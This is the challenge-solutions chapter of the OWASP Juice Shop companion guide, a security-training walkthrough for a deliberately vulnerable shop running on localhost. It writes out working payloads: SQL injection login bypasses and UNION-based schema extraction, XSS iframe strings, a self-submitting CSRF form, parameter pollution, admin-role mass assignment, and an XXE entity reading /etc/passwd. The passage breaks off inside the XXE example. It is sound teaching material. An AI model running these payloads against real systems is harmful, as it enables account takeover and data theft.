# Challenge solutions

All URLs in the challenge solutions assume you are running the
application locally and on the default port http://localhost:3000.
Change the URL accordingly if you use a different root URL.

Often there are multiple ways to solve a challenge. In most cases just
one possible solution is presented here. This is typically the easiest
or most obvious one from the author's perspective.

_The challenge solutions found in this release of the companion guide
are compatible with {{book.juiceShopVersion}} of OWASP Juice Shop._

## ⭐ Challenges

### Use the bonus payload in the DOM XSS challenge

1. Solve the [Perform a DOM XSS attack](#perform-a-dom-xss-attack)
   challenge
2. Turn on your computer's speakers!
3. Paste the payload `<iframe width="100%" height="166" scrolling="no"
   frameborder="no" allow="autoplay"
   src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>`
   into the _Search..._ field and hit Enter
4. Enjoy the excellent acoustic entertainment!

### Access a confidential document

1. Follow the link to titled _Check out our boring terms of use if you
   are interested in such lame stuff_
   (<http://localhost:3000/ftp/legal.md>) on the _About Us_ page.
2. Successfully attempt to browse the directory by changing the URL into
   <http://localhost:3000/ftp>

   
3. Open <http://localhost:3000/ftp/acquisitions.md> to solve the
   challenge.

### Provoke an error that is neither very gracefully nor consistently handled

Any request that cannot be properly handled by the server will
eventually be passed to a global error handling component that sends an
error page to the client that includes a stack trace and other sensitive
information. The restful API behaves in a similar way, passing back a
JSON error object with sensitive data, such as SQL query strings.

Here are two examples (out of many different ways) to provoke such an
error situation and solve this challenge immediately:

* Visit <http://localhost:3000/rest/qwertz>

  
* Log in to the application with `'` (single-quote) as _Email_ and
  anything as _Password_

  
  

### Find the endpoint that serves usage data to be scraped by a popular monitoring system

1. Scroll through <https://prometheus.io/docs/introduction/first_steps>
2. You should notice several mentions of `/metrics` as the default path
   scraped by Prometheus, e.g. "Prometheus expects metrics to be
   available on targets on a path of `/metrics`."
3. Visit <http://localhost:3000/metrics> to view the actual Prometheus
   metrics of the Juice Shop and solve this challenge

### Retrieve the photo of Bjoern's cat in "melee combat-mode"

1. Visit <http://localhost:3000/#/photo-wall>
2. Right-click _Inspect_ the broken image in the entry labeled "😼
   \#zatschi \#whoneedsfourlegs"
3. You should find an image tag similar to `` in the source
4. Right-click _Open in new tab_ the `src` element of the image
5. Observe (in your DevTools _Network_ tab) that the request sent to the
   server is
   <http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC->
6. The culprit here are the two `#` characters in the URL, which are no
   problem for your OS in a filename, but are interpreted by your
   browser as HTML anchors. Thus, they are not transmitted to the server
   at all.
7. To get them over to the server intact, they must obviously be
   URL-encoded into `%23`
8. Open
   <http://localhost:3000/assets/public/images/uploads/😼-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg>
   and enjoy the incredibly cute photo of this pet being happy despite
   missing half a hind leg
9. Go back to the application and the challenge will be solved.


### Let us redirect you to one of our crypto currency addresses

1. Log in to the application with any user.
2. Visit the _Your Basket_ page and expand the _Payment_ and
   _Merchandise_ sections with the "credit card"-button.
3. Perceive that all donation links are passed through the `to`
   parameter of the route `/redirect`
4. Open `main-es2015.js` in your browser's DevTools
5. Searching for `/redirect?to=` and stepping through all matches you
   will notice three functions that are called only from hidden buttons
   on the _Your Basket_ page:

   
6. Open one of the three, e.g.
   <http://localhost:3000/redirect?to=https://blockchain.info/address/1AbKfgvw9psQ41NbLi8kufDQTezwG8DRZm>
   to solve the challenge.

### Read our privacy policy

1. Log in to the application with any user.
2. Open the dropdown menu on your profile picture and choose _Privacy &
   Security_.
3. You will find yourself on
   <http://localhost:3000/#/privacy-security/privacy-policy> which
   instantly solves this challenge for you.

### Follow the DRY principle while registering a user

1. Go to <http://localhost:3000/#/register>.
2. Fill out all required information except the _Password_ and _Repeat
   Password_ field.
3. Type e.g. `12345` into the _Password_ field.
4. Now type `12345` into the _Repeat Password_ field. While typing the
   numbers you will see a _Passwords do not match_ error until you reach
   `12345`.
5. Finally go back to the _Password_ field and change it into any other
   password. The _Repeat Password_ field does not show the expected
   error.
6. Submit the form with _Register_ which will solve this challenge.


### Find the carefully hidden 'Score Board' page

1. Go to the _Sources_ tab of your browsers DevTools and open the
   `main-es2015.js` file.
2. If your browser offers pretty-printing of this minified messy code,
   best use this offer. In Chrome this can be done with the "{}"-button.
3. Search for `score` and iterate through each finding to come across
   one that looks like a route mapping section:

   
4. Navigate to http://localhost:3000/#/score-board to solve the
   challenge.
5. From now on you will see the additional menu item _Score Board_ in
   the navigation bar.

### Perform a DOM XSS attack

1. Paste the attack string ``<iframe src="javascript:alert(`xss`)">``
   into the _Search..._ field.
2. Hit the Enter key.
3. An alert box with the text "xss" should appear.

   

### Give a devastating zero-star feedback to the store

Place an order that makes you rich. Visit the _Contact Us_ form and put
in a _Comment_ text. Also solve the CAPTCHA at the bottom of the form.

1. The _Submit_ button is still **disabled** because you did not select
   a _Rating_ yet.
2. Inspect the _Submit_ button with your DevTools and note the
   `disabled` attribute of the `<button>` HTML tag
3. Double click on `disabled` attribute to select it and then delete it
   from the tag.

   
4. The _Submit_ button is now **enabled**.
5. Click the _Submit_ button to solve the challenge.
6. You can verify the feedback was saved by checking the _Customer
   Feedback_ widget on the _About Us_ page.

   

## ⭐⭐ Challenges

### Access the administration section of the store

1. Open the `main-es2015.js` in your browser's developer tools and
   search for "admin".
2. One of the matches will be a route mapping to `path:
   "administration"`.

   
3. Navigating to http://localhost:3000/#/administration will give a `403
   Forbidden` error.
4. Log in to an administrator's account by solving the challenge
   * [Log in with the administrator's user account](#log-in-with-the-administrators-user-account)
     or
   * [Log in with the administrator's user credentials without previously changing them or applying SQL Injection](#log-in-with-the-administrators-user-credentials-without-previously-changing-them-or-applying-sql-injection)
     first and then navigate to http://localhost:3000/#/administration
     will solve the challenge.

### View another user's shopping basket

1. Log in as any user.
2. Put some products into your shopping basket.
3. Inspect the _Session Storage_ in your browser's developer tools to
   find a numeric `bid` value.

   
4. Change the `bid`, e.g. by adding or subtracting 1 from its value.
5. Visit <http://localhost:3000/#/basket> to solve the challenge.

If the challenge is not immediately solved, you might have to
`F5`-reload to relay the `bid` change to the Angular client.

### Use a deprecated B2B interface that was not properly shut down

1. Log in as any user.
2. Click _Complain?_ in the _Contact Us_ dropdown to go to the _File
   Complaint_ form
3. Clicking the file upload button for _Invoice_ and browsing some
   directories you might notice that `.pdf` and `.zip` files are
   filtered by default
4. Trying to upload another other file will probably give you an error
   message on the UI stating exactly that: `Forbidden file type. Only
   PDF, ZIP allowed.`
5. Open the `main-es2015.js` in your DevTools and find the declaration
   of the file upload (e.g. by searching for `zip`)
6. In the `allowedMimeType` array you will notice `"application/xml"`
   and `"text/xml"` along with the expected PDF and ZIP types

   
7. Click on the _Choose File_ button.
8. In the _File Name_ field enter `*.xml` and select any arbitrary XML
   file (<100KB) you have available. Then press _Open_.
9. Enter some _Message_ text and press _Submit_ to solve the challenge.
10. On the JavaScript Console of your browser you will see a suspicious
    `410 (Gone)` HTTP Error. In the corresponding entry in the Network
    section of your browser's DevTools, you should see an error message,
    telling you that `B2B customer complaints via file upload have been
    deprecated for security reasons!`

### Get rid of all 5-star customer feedback

1. Log in to the application with any user.
2. Solve
   [Access the administration section of the store](#access-the-administration-section-of-the-store)

   
3. Delete all entries with five star rating from the _Customer Feedback_
   table using the trashcan button

### Log in with the administrator's user account

* Log in with _Email_ `' or 1=1--` and any _Password_ which will
  authenticate the first entry in the `Users` table which coincidentally
  happens to be the administrator
* or log in with _Email_ `admin@juice-sh.op'--` and any _Password_ if
  you already know the email address of the administrator
* or log in with _Email_ `admin@juice-sh.op` and _Password_ `admin123`
  if you looked up the administrator's password hash
  `0192023a7bbd73250516f069df18b500` in a rainbow table after harvesting
  the user data
  * by solving
    [Retrieve a list of all user credentials via SQL Injection](#retrieve-a-list-of-all-user-credentials-via-sql-injection)
  * or via REST API call <http://localhost:3000/api/Users> while
    providing any valid `Authorization Bearer` token (even one of a
    self-registered user).

### Log in with MC SafeSearch's original user credentials

1. Reading the hints for this challenge or googling "MC SafeSearch" will
   eventually bring the music video
   ["Protect Ya' Passwordz"](https://www.youtube.com/watch?v=v59CX2DiX0Y)
   to your attention.
2. Watch this video to learn that MC used the name of his dog "Mr.
   Noodles" as a password but changed "some vowels into zeroes".
3. Visit <http://localhost:3000/#/login> and log in with _Email_
   `mc.safesearch@juice-sh.op` and _Password_ `Mr. N00dles` to solve
   this challenge.

### Log in with the administrator's user credentials without previously changing them or applying SQL Injection

1. Visit <http://localhost:3000/#/login>.
2. Log in with _Email_ `admin@juice-sh.op` and _Password_ `admin123`
   which is as easy to guess as it is to brute force or retrieve from a
   rainbow table.

### Behave like any "white hat" should before getting into the action

1. Visit <https://securitytxt.org/> to learn about a proposed standard
   which allows websites to define security policies.
2. Request the security policy file from the server at
   <http://localhost:3000/.well-known/security.txt> to solve the
   challenge.
3. Optionally, write an email to the mentioned contact address
   <mailto:donotreply@owasp-juice.shop> and see what happens... :e-mail:

### Inform the shop about an algorithm or library it should definitely not use the way it does

Juice Shop uses some inappropriate crypto algorithms and libraries in
different places. While working on the following topics (and having the
`package.json.bak` at hand) you will learn those inappropriate choices
in order to exploit and solve them:

* [Forge a coupon code that gives you a discount of at least 80%](#forge-a-coupon-code-that-gives-you-a-discount-of-at-least-80)
  exploits `z85` (Zero-MQ Base85 implementation) as the library for
  coupon codes.
* [Solve challenge #999](#solve-challenge-999) requires you to create a
  valid hash with the `hashid` library.
* Passwords in the `Users` table are hashed with unsalted MD5
* Users registering via Google account will receive a very silly default
  password that involves Base64 encoding.

<!-- -->

1. Visit <http://localhost:3000/#/contact>.
2. Submit your feedback with one of the following words in the comment:
   `z85`, `base85`, `base64`, `md5` or `hashid`.

### Perform a reflected XSS attack

1. Log in as any user.
2. Do some shopping and then visit the _Order History_.
3. Clicking on the little "Truck" button for any of your orders will
   show you the delivery status of your order.
4. Notice the `id` parameter in the URL
   <http://localhost:3000/#/track-result?id=fe01-f885a0915b79f2a9> with
   `fe01-f885a0915b79f2a9` being one of your order numbers?
5. As the `fe01-f885a0915b79f2a9` is displayed on the screen, it might
   be susceptible to an XSS attack.
6. Paste the attack string ``<iframe src="javascript:alert(`xss`)">``
   into that URL so that you have
   <http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E>
7. Refresh that URL to get the XSS payload executed and the challenge
   marked as solved.

   

### Determine the answer to John's security question

1. Go to the photo wall and search for the photo that has been posted by
   the user `j0hNny`.
2. Download that photo.
3. Check the metadata of the photo. You can use various tools online
   like http://exif.regex.info/exif.cgi
4. When viewing the metadata, you can see the coordinates of where the
   photo was taken. The coordinates are `36.958717N 84.348217W`
5. Search for these coordinates on Google to find out in which forest
   the photo was taken. It can be seen that the `Daniel Boone National
   Forest` is located on these coordinates.
6. Go to the login page and click on _Forgot your password?_.
7. Fill in `john@juice-sh.op` as the email and `Daniel Boone National
   Forest` as the answer of the security question.
8. Choose a new password and click on _Change_.

### Determine the answer to Emma's security question

1. Go to the photo wall and search for the photo that has been posted by
   the user `E=ma²`.
2. Open the image so that you can zoom in on it.
3. On the far left window on the middle floor, you can see a logo of a
   company. It can be seen that logo shows the name `ITSec`.
4. Go to the login page and click on _Forgot your password?_.
5. Fill in `emma@juice-sh.op` as the email and `ITSec` as the answer of
   the security question.
6. Choose a new password and click on _Change_.

## ⭐⭐⭐ Challenges

### Register as a user with administrator privileges

1. Submit a `POST` request to <http://localhost:3000/api/Users> with:
   * `{"email":"admin","password":"admin","role":"admin"}` as body
   * and `application/json` as `Content-Type`

   
2. Upon your next visit to the application's web UI the challenge will
   be marked as solved.

### Put an additional product into another user's shopping basket

1. Log in as any user.
2. Inspect HTTP traffic while putting items into your own shopping
   basket to learn your own `BasketId`. For this solution we assume
   yours is `1` and another user's basket with a `BasketId` of `2`
   exists.
3. Submit a `POST` request to <http://localhost:3000/api/BasketItems>
   with payload as `{"ProductId": 14,"BasketId": "2","quantity": 1}`
   making sure no product of that with `ProductId` of `14` is already in
   the target basket. Make sure to supply your `Authorization Bearer`
   token in the request header.
4. You will receive a (probably unexpected) response of `{'error' :
   'Invalid BasketId'}` - after all, it is not your basket!
5. Change your `POST` request into utilizing HTTP Parameter Pollution
   (HPP) by supplying your own `BasketId` _and_ that of someone else in
   the same payload, i.e. `{"ProductId": 14,"BasketId": "1","quantity":
   1,"BasketId": "2"}`.
6. Submitting this request will satisfy the validation based on your own
   `BasketId` but put the product into the other basket!

ℹ️ With other `BasketId`s you might need to play with the order of the
duplicate property a bit and/or make sure your own `BasketId` is lower
than the one of the target basket to make this HPP vulnerability work in
your favor.

> Supplying multiple HTTP parameters with the same name may cause an
> application to interpret values in unanticipated ways. By exploiting
> these effects, an attacker may be able to bypass input validation,
> trigger application errors or modify internal variables values. As
> HTTP Parameter Pollution (in short HPP) affects a building block of
> all web technologies, server and client side attacks exist.
>
> Current HTTP standards do not include guidance on how to interpret
> multiple input parameters with the same name. For instance, RFC 3986
> simply defines the term Query String as a series of field-value pairs
> and RFC 2396 defines classes of reserved and unreserved query string
> characters. Without a standard in place, web application components
> handle this edge case in a variety of ways (see the table below for
> details).
>
> By itself, this is not necessarily an indication of vulnerability.
> However, if the developer is not aware of the problem, the presence of
> duplicated parameters may produce an anomalous behavior in the
> application that can be potentially exploited by an attacker. As often
> in security, unexpected behaviors are a usual source of weaknesses
> that could lead to HTTP Parameter Pollution attacks in this case. To
> better introduce this class of vulnerabilities and the outcome of HPP
> attacks, it is interesting to analyze some real-life examples that
> have been discovered in the past. [^7]

### Submit 10 or more customer feedbacks within 10 seconds

1. Open the Network tab of your browser DevTools and visit
   <http://localhost:3000/#/contact>
2. You should notice a `GET` request to
   <http://localhost:3000/rest/captcha/> which retrieves the CAPTCHA for
   the feedback form. The HTTP response body will look similar to
   `{"captchaId":18,"captcha":"5*8*8","answer":"320"}`.
3. Fill out the form normally and submit it while checking the backend
   interaction in your Developer Tools. The CAPTCHA identifier and
   solution are transmitted along with the feedback in the request body:
   `{comment: "Hello", rating: 1, captcha: "320", captchaId: 18}`
4. You will notice that a new CAPTCHA is retrieved from the REST
   endpoint. It will present a different math challenge, e.g.
   `{"captchaId":19,"captcha":"1*1-1","answer":"0"}`
5. Write another feedback but before sending it, change the `captchaId`
   and `captcha` parameters to the previous values of `captchaId` and
   `answer`. In this example you would submit `captcha: "320",
   captchaId: 18` instead of `captcha: "0", captchaId: 19`.
6. The server will accept your feedback, telling your that the CAPTCHA
   can be pinned to any previous one you like.
7. Write a script with a 10-iteration loop that submits feedback using
   your pinned `captchaId` and `captcha` parameters. Running this script
   will solve the challenge.

Two alternate (but more complex) solutions:
* Rewrite your script so that it _parses the response from each CAPTCHA
  retrieval call_ to <http://localhost:3000/rest/captcha/> and sets the
  extracted `captchaId` and `answer` parameters in each subsequent form
  submission as `captchaId` and `captcha`.
* Using an automated browser test tool like
  [Selenium WebDriver](https://www.seleniumhq.org/) you could do the
  following:
  1. Read the CAPTCHA question from the HTML element `<code id="captcha"
     ...>`
  2. Calculate the result on the fly using JavaScript
  3. Let WebDriver write the answer into the `<input
     name="feedbackCaptcha" ...>` field.

The latter is actually the way it is implemented in the end-to-end test
for this challenge:

```javascript
  let comment, rating, submitButton, captcha

  beforeEach(() => {
    browser.get('/#/contact')
    comment = element(by.id('comment'))
    rating = $$('.br-unit').last()
    captcha = element(by.id('captchaControl'))
    submitButton = element(by.id('submitButton'))
    solveNextCaptcha()
  })

  describe('challenge "captchaBypass"', () => {
    it('should be possible to post 10 or more customer feedbacks in less than 10 seconds', () => {
      for (var i = 0; i < 11; i++) {
        comment.sendKeys('Spam #' + i)
        rating.click()
        submitButton.click()
        browser.sleep(200)
        solveNextCaptcha() // first CAPTCHA was already solved in beforeEach
      }
    })

    protractor.expect.challengeSolved({ challenge: 'CAPTCHA Bypass Tier 1' })
  })

  function solveNextCaptcha () {
    element(by.id('captcha')).getText().then((text) => {
      const answer = eval(text).toString() // eslint-disable-line no-eval
      captcha.sendKeys(answer)
    })
  }
```

_It is worth noting that both alternate solutions would still work even
if the CAPTCHA-pinning problem would be fixed in the application!_

Last but not least, the following
[RaceTheWeb](https://github.com/aaronhnatiw/race-the-web) config could
be used to solve this challenge. Other than the two above alternate
solutions, this one relies on CAPTCHA-pinning:

```toml
# CAPTCHA Bypass
# Save this as captcha-bypass.toml
# Get Captcha information from this endpoint first: http://localhost:3000/rest/captcha/
# Then replace captchaId and captcha values in body parameter of this file
# Launch this file by doing ./racethweb captcha-bypass.toml
count = 10
verbose = true
[[requests]]
    method = "POST"
    url = "http://localhost:3000/api/Feedbacks/"
    body = "{\"captchaId\":12,\"captcha\":\"-1\",\"comment\":\"pwned2\",\"rating\":5}"
    headers = ["Content-Type: application/json"]
```

### Change the name of a user by performing Cross-Site Request Forgery from another origin

1. Login with a user account, this user is the victim of the attack.
2. Navigate to <http://htmledit.squarefree.com>. It is intentional that
   the site is accessed without TLS, as otherwise there might be issues
   with the mixed-content policy of the browser.
3. In the upper frame of the page, paste the following HTML fragment,
   which contains a self-submitting HTML form:

```html
<form action="http://localhost:3000/profile" method="POST">
  <input name="username" value="CSRF"/>
  <input type="submit"/>
</form>
<script>document.forms[0].submit();</script>
```

4. The attack is performed immediately. You will see an error message or
   a blank page in the lower frame, because even though the online HTML
   editor is allowed to send requests to Juice Shop, it is not permitted
   to embed the response.
5. Verify that the username got changed to "CSRF" by checking the
   [profile page](http://localhost:3000/profile).

In an actual attack scenario, the attacker will try to trick a
legitimate user into opening an attacker-controlled website. If the
victim is simultaneously logged into the target website, the requested
that is generated by the malicious form in step 3 is authenticated with
the victim's session. The attacker has also options to hide the
automatically issued request, for example by embedding it into an inline
frame of zero height and width.

### Exfiltrate the entire DB schema definition via SQL Injection

1. From any errors seen during previous SQL Injection attempts you
   should know that SQLite is the relational database in use.
2. Check <https://www.sqlite.org/faq.html> to learn in "(7) How do I
   list all tables/indices contained in an SQLite database" that the
   schema is stored in a system table `sqlite_master`.
3. You will also learn that this table contains a column `sql` which
   holds the text of the original `CREATE TABLE` or `CREATE INDEX`
   statement that created the table or index. Getting your hands on this
   would allow you to replicate the entire DB schema.
4. During the
   [Order the Christmas special offer of 2014](#order-the-christmas-special-offer-of-2014)
   challenge you learned that the `/rest/products/search` endpoint is
   susceptible to SQL Injection into the `q` parameter.
5. The attack payload you need to craft is a `UNION SELECT` merging the
   data from the `sqlite_master` table into the products returned in the
   JSON result.
6. As a starting point we use the known working `'))--` attack pattern
   and try to make a `UNION SELECT` out of it
7. Searching for `')) UNION SELECT * FROM x--` fails with a
   `SQLITE_ERROR: no such table: x` as you would expect.
8. Searching for `')) UNION SELECT * FROM sqlite_master--` fails with a
   promising `SQLITE_ERROR: SELECTs to the left and right of UNION do
   not have the same number of result columns` which least confirms the
   table name.
9. The next step in a `UNION SELECT`-attack is typically to find the
   right number of returned columns. As the _Search Results_ table in
   the UI has 3 columns displaying data, it will probably at least be
   three. You keep adding columns until no more `SQLITE_ERROR` occurs
   (or at least it becomes a different one):

   1. `')) UNION SELECT '1' FROM sqlite_master--` fails with `number of
      result columns` error
   2. `')) UNION SELECT '1', '2' FROM sqlite_master--` fails with
      `number of result columns` error
   3. `')) UNION SELECT '1', '2', '3' FROM sqlite_master--` fails with
      `number of result columns` error
   4. (...)
   5. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM
      sqlite_master--` _still fails_ with `number of result columns`
      error
   6. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM
      sqlite_master--` finally gives you a JSON response back with an
      extra element
      `{"id":"1","name":"2","description":"3","price":"4","deluxePrice":"5","image":"6","createdAt":"7","updatedAt":"8","deletedAt":"9"}`.

10. Next you get rid of the unwanted product results changing the query
    into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5',
    '6', '7', '8', '9' FROM sqlite_master--` leaving only the
    "`UNION`ed" element in the result set
11. The last step is to replace one of the fixed values with correct
    column name `sql`, which is why searching for `qwert')) UNION SELECT
    sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`
    solves the challenge.

### Obtain a Deluxe Membership without paying for it

🛠️ **TODO**

### Post some feedback in another users name

1. Go to the _Contact Us_ form on <http://localhost:3000/#/contact>.
2. Inspect the DOM of the form in your browser to spot this suspicious
   text field right at the top: `<input _ngcontent-c23 hidden
   id="userId" type="text" class="ng-untouched ng-pristine ng-valid">`

   
3. In your browser's developer tools remove the `hidden` attribute from
   above `<input>` tag.

   
4. The field should now be visible in your browser. Type any user's
   database identifier in there (other than your own if you are
   currently logged in) and submit the feedback.

You can also solve this challenge by directly sending a `POST` to
<http://localhost:3000/api/Feedbacks> endpoint. You could for example be
logged out but provide any `UserId` in the JSON payload.

### Post a product review as another user or edit any user's existing review

1. Select any product and write a review for it
   

2. Submit the review while observing the `Networks` tab of your browser.

3. Analyze the `PUT` request.
   

4. Change the author name to `admin@juice-sh.op` in `Request Body` and
   re-send the request.

### Log in with Chris' erased user account

* Log in with _Email_ `chris.pike@juice-sh.op'--` and any _Password_ if
  you already know the email address of Chris.
* or log in with _Email_ as `\' or deletedAt IS NOT NULL--` and any
  _Password_ you like for a "lucky hit" as Chris seems to be the only or
  at least first ever deleted user. The presence of `deletedAt` you
  might have derived from
  [Retrieve a list of all user credentials via SQL Injection](#retrieve-a-list-of-all-user-credentials-via-sql-injection)
  and enforcing it to be `NOT NULL` will give you back only users who
  were soft-deleted at some point of time.

### Log in with Amy's original user credentials

1. Google for either `93.83 billion trillion trillion centuries` or `One
   Important Final Note`.
2. Both searches should show <https://www.grc.com/haystack.htm> as one
   of the top hits.
3. After reading up on _Password Padding_ try the example password
   `D0g.....................`
4. She actually did a very similar padding trick, just with the name of
   her husband _Kif_ written as _K1f_ instead of _D0g_ from the example!
   She did not even bother changing the padding length!
5. Visit <http://localhost:3000/#/login> and log in with credentials
   `amy@juice-sh.op` and password `K1f.....................` to solve
   the challenge

### Log in with Bender's user account

* Log in with _Email_ `bender@juice-sh.op'--` and any _Password_ if you
  already know the email address of Bender.
* A rainbow table attack on Bender's password will probably fail as it
  is rather strong. You can alternatively solve
  [Change Bender's password into _slurmCl4ssic_ without using SQL Injection or Forgot Password](#change-benders-password-into-slurmcl4ssic-without-using-sql-injection-or-forgot-password)
  first and then simply log in with the new password.

### Log in with Jim's user account

* Log in with _Email_ `jim@juice-sh.op'--` and any _Password_ if you
  already know the email address of Jim.
* or log in with _Email_ `jim@juice-sh.op` and _Password_ `ncc-1701` if
  you looked up Jim's password hash in a rainbow table after harvesting
  the user data as described in
  [Retrieve a list of all user credentials via SQL Injection](#retrieve-a-list-of-all-user-credentials-via-sql-injection).

### Place an order that makes you rich

1. Log in as any user.
2. Put at least one item into your shopping basket.
3. Note that reducing the quantity of a basket item below 1 is not
   possible via the UI
4. When changing the quantity via the UI, you will notice `PUT` requests
   to <http://localhost:3000/api/BasketItems/{id}> in the Network tab of
   your DevTools
5. Memorize the `{id}` of any item in your basket
6. Copy your `Authorization` header from any HTTP request submitted via
   browser.
7. Submit a `PUT` request to
   <http://localhost:3000/api/BasketItems/{id}> replacing `{id}` with
   the memorized number from 5. and with:
   * `{"quantity": -100}` as body,
   * `application/json` as `Content-Type`
   * and `Bearer ?` as `Authorization` header, replacing the `?` with
     the token you copied from the browser.

   
8. Visit <http://localhost:3000/#/basket> to view _Your Basket_ with the
   negative quantity on the first item

   
9. Click _Checkout_ to issue the negative order and solve this
   challenge.

   

### Prove that you actually read our privacy policy

1. Open <http://localhost:3000/#/privacy-security/privacy-policy>.
2. Moving your mouse cursor over each paragraph will make a fire-effect
   appear on certain words or partial sentences.

   
3. Inspect the HTML in your browser and note down all text inside `<span
   class="hot">` tags, which are `http://localhost`, `We may also`,
   `instruct you`, `to refuse all`, `reasonably necessary` and
   `responsibility`.
4. Combine those into the URL
   <http://localhost:3000/we/may/also/instruct/you/to/refuse/all/reasonably/necessary/responsibility>
   (adding the server port if needed) and solve the challenge by
   visiting it.

It seems the Juice Shop team did not appreciate your extensive reading
effort enough to provide even a tiny gratification, as you will receive
only a `404 Error: ENOENT: no such file or directory, stat
'/app/frontend/dist/frontend/assets/private/thank-you.jpg'`.

### Change the href of the link within the O-Saft product description

1. By searching for _O-Saft_ directly via the REST API with
   <http://localhost:3000/rest/products/search?q=o-saft> you will learn
   that it's database ID is `9`.
2. Submit a `PUT` request to <http://localhost:3000/api/Products/9>
   with:
   * `{"description": "<a href=\"https://owasp.slack.com\"
     target=\"_blank\">More...</a>"}` as body
   * and `application/json` as `Content-Type`

   

### Reset the password of Bjoern's OWASP account via the Forgot Password mechanism

1. Find Bjoern's
   [_OWASP Juice Shop_ playlist on Youtube](https://www.youtube.com/playlist?list=PLV9O4rIovHhO1y8_78GZfMbH6oznyx2g2)
2. Watch
   [BeNeLux Day 2018: Juice Shop: OWASP's Most Broken Flagship - Björn Kimminich](https://www.youtube.com/watch?v=Lu0-kDdtVf4)
3. This conference talk recording immediately dives into a demo of the
   Juice Shop application in which Bjoern starts registering a new
   account 3:59 into the video (<https://youtu.be/Lu0-kDdtVf4?t=239>)
4. Bjoern picks _Name of your favorite pet?_ as his security question
   and - live on camera - answers it truthfully with "Zaya", the name of
   his family's adorable three-legged cat.
5. Visit <http://localhost:3000/#/forgot-password> and provide
   `bjoern@owasp.org` as your _Email_.
6. In the subsequently appearing form, provide `Zaya` as _Name of your
   favorite pet?_
7. Then type any _New Password_ and matching _Repeat New Password_
8. Click _Change_ to solve this challenge

#### Other hints about Bjoern's choice of security answer

The **user profile picture** of his account at
<http://localhost:3000/assets/public/images/uploads/12.jpg> shows his
pet cat.


Retrieving another photo of his cat is the subject of the
[Retrieve the photo of Bjoern's cat in "melee combat-mode"](../part2/improper-input-validation.md#retrieve-the-photo-of-bjoerns-cat-in-melee-combat-mode)
challenge. The corresponding image caption "😼 \#zatschi
\#whoneedsfourlegs" also leaks the nickname "Zatschi" of the pet - which
is cute, but (intentionally) not very helpful to find out her real name,
though.


### Reset Jim's password via the Forgot Password mechanism

1. Visit http://localhost:3000/#/forgot-password and provide
   `jim@juice-sh.op` as your _Email_ to learn that _Your eldest siblings
   middle name?_ is Jim's chosen security question
2. Jim (whose `UserId` happens to be `2`) left some breadcrumbs in the
   application which reveal his identity
   * A product review for the _OWASP Juice Shop-CTF Velcro Patch_
     stating _"Looks so much better on my uniform than the boring
     Starfleet symbol."_
   * Another product review _"Fresh out of a replicator."_ on the _Green
     Smoothie_ product
   * A _Recycling Request_ associated to his saved address _"Room 3F
     121, Deck 5, USS Enterprise, 1701"_
3. It should eventually become obvious that _James T. Kirk_ is the only
   viable solution to the question of Jim's identity

   
4. Visit https://en.wikipedia.org/wiki/James_T._Kirk and read the
   [Depiction](https://en.wikipedia.org/wiki/James_T._Kirk#Depiction)
   section
5. It tells you that Jim has a brother named _George Samuel Kirk_
6. Visit http://localhost:3000/#/forgot-password and provide
   `jim@juice-sh.op` as your _Email_
7. In the subsequently appearing form, provide `Samuel` as _Your eldest
   siblings middle name?_
8. Then type any _New Password_ and matching _Repeat New Password_
9. Click _Change_ to solve this challenge

   

### Upload a file larger than 100 kB

1. The client-side validation prevents uploads larger than 100 kB.
2. Craft a `POST` request to <http://localhost:3000/file-upload> with a
   form parameter `file` that contains a PDF file of more than 100 kB
   but less than 200 kB.

   
3. The response from the server will be a `204` with no content, but the
   challenge will be successfully solved.

Files larger than 200 kB are rejected by an upload size check on server
side with a `500` error stating `Error: File too large`.

### Upload a file that has no .pdf or .zip extension

1. Craft a `POST` request to <http://localhost:3000/file-upload> with a
   form parameter `file` that contains a non-PDF file with a size of
   less than 200 kB.

   
2. The response from the server will be a `204` with no content, but the
   challenge will be successfully solved.

Uploading a non-PDF file larger than 100 kB will solve
[Upload a file larger than 100 kB](#upload-a-file-larger-than-100-kb)
simultaneously.

### Perform a persisted XSS attack bypassing a client-side security mechanism

1. Submit a POST request to http://localhost:3000/api/Users with
   * `{"email": "<iframe src=\"javascript:alert(`xss`)\">", "password":
     "xss"}` as body
   * and `application/json` as `Content-Type` header.

   
2. Log in to the application with an admin.
3. Visit http://localhost:3000/#/administration.
4. An alert box with the text "xss" should appear.

   
5. Close this box. Notice the somewhat broken looking row in the
   _Registered Users_ table?
6. Click the "eye"-button in that row.
7. A modal overlay dialog with the user details opens where the attack
   string is rendered as harmless text.

   

### Perform a persisted XSS attack without using the frontend application at all

1. Log in to the application with any user.
2. Copy your `Authorization` header from any HTTP request submitted via
   browser.
3. Submit a POST request to <http://localhost:3000/api/Products> with
   * `{"name": "XSS", "description": "<iframe
     src=\"javascript:alert(`xss`)\">", "price": 47.11}` as body,
   * `application/json` as `Content-Type`
   * and `Bearer ?` as `Authorization` header, replacing the `?` with
     the token you copied from the browser.

   
4. Visit http://localhost:3000/#/search.
5. An alert box with the text "xss" should appear.

   
6. Close this box. Notice the product row which has a frame border in
   the description in the _All Products_ table
7. Click the "eye"-button next to that row.
8. Another alert box with the text "xss" should appear. After closing it
   the actual details dialog pops up showing the same frame border.

   

### Retrieve the content of C:\Windows\system.ini or /etc/passwd from the server

1. Solve the
   [Use a deprecated B2B interface that was not properly shut down](#use-a-deprecated-b2b-interface-that-was-not-properly-shut-down)
   challenge.
2. Prepare an XML file which defines and uses an external entity
   `<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>` (or `<!ENTITY xxe
   SYSTEM "file:///C:/Windows/system.ini" >]>` on Windows).
3. Upload this file through the _File Complaint_ dialog and observe the
   Javascript console while doing so. It should give you an error
   message containing the parsed XML, including the contents of the
   local system file!

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<trades>
    <metadata>
